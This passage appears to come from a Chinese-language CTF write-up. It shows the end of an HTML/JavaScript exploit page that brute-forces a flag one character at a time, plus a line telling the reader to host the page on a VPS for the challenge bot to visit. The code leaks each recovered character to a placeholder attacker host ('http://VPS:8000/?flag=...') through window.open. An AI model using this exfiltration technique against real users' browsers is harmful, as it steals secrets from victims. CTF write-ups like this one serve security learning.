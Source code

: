 ```html
                        const isCorrect = await checkCharacter(char);
                        if (isCorrect) {
                            currentFlag += char;
                            window.open(`http://VPS:8000/?flag=${currentFlag}`);
                            await sleep(50);
                            break;
                        }
                        await sleep(50);
                    }
                }
            } catch (error) {
                window.open(`http://VPS:8000/?error=${currentFlag}`);
            }
        }

        bruteforce();
    </script>
</body>

</html>
```

VPS起这个服务，bot访问即可

![](/images/1742736741383-899b4fa3-fb61-4084-8d13-d712ca7d9aa2.png)
